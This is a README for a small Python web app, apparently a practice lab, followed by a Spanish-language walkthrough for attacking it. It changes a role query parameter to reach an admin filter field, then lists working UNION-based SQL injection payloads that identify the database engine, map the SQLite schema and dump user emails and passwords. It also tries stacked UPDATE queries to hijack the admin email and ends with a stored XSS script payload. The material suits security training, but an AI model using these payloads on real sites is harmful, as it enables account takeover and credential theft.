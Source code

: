 Python version 3.12.3

Install dependencies: pip3 install -r requirements.txt

Run: py app.py

---

# Procedimiento

### 1. Entrar a la ruta /posts y cambiar el query param role por 'admin', lo cual habilita un campo filtro
### 2. Inyectar sql en este campo filtro.
   #### El objetivo es encontrar información sobre las db, tablas, columnas, como no sabemos que motor de BD utiliza, probamos con las sentencias SQL para distintos motores, para encontrar el motor que utiliza.
   ##### MySQL
   - ' UNION ALL SELECT table_schema, table_name, engine, version, row_format FROM information_schema.tables WHERE table_type = 'BASE TABLE' ORDER BY table_schema, table_name;--
   - ' UNION ALL SELECT version();--
   - ' UNION ALL SELECT schema_name FROM information_schema.schemata;--

   ##### MSSQL
   - ' UNION ALL SELECT name FROM master.dbo.sysdatabases;--
   - ' UNION ALL SELECT name FROM master.sys.databases;--
   - ' UNION ALL SELECT name FROM sys.dm_os_sys_info;--
   - ' UNION ALL SELECT name FROM dbo.dm_os_sys_info;--

   ##### SQLite
   - ' UNION ALL select sqlite_version();--
   #### En este ultimo intento vemos que el error refiere a cantidad de columnas que retorna, por lo que inferimos que algo retorno del select, entonces estamos ante un motor sqlite.

   #### Acá probamos con una sola columna, nos dicen que faltan más y vamos probando con más hasta que encontramos que son 3, ya que cambia de error
   - ' UNION ALL SELECT name FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, name as bla FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, name as bla, name as ble FROM sqlite_master WHERE type='table'--
   #### Acá nos dice que hay un error que dice que necesitamos un valor entero, entonces vamos probando columna por columna para ver cual es la columna que debe ser un entero
   - ' UNION ALL SELECT name, name as bla, 11 as ble FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, 77 as bla, 11 as ble FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT 66, name as bla, 11 as ble FROM sqlite_master WHERE type='table'--

   #### Ahora, teniendo el nombre de la tabla, queremos descubrir los nombres de los campos (users, posts y comments)
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'users' --
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'posts' --
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'comments' --

   #### Con toda la informacion previa, podemos ver la información de las tablas
   - ' UNION ALL SELECT id, id || ' ' || username || ' ' || email || ' ' || role, password FROM 'users' --
   - ' UNION ALL SELECT id, title, content FROM 'posts' --
   - ' UNION ALL SELECT id, content, post_id FROM 'comments' --

   #### En el mismo campo, intentamos buscar la forma de cambiar el mail, pero no nos permite, ya que no permite la ejecucion de mas de una query a la vez
   - s' ; UPDATE users SET email='my_email' WHERE username='admin'; --

   #### Buscamos otros campos donde poder injectar sql. Encontramos que los posts tienen un campo texto, que permite esta injeccion
   - s' ; UPDATE users SET email='`<un_mail>`' WHERE username='admin'; --

### 3. ' UNION ALL SELECT 10 as id, sql AS content, '-' as title from sqlite_schema where name = 'users' --
### 4. Logeado como admin, crear un post con contenido malicioso. Ejemplo de contenido: <script>alert('alerta xss')</script>
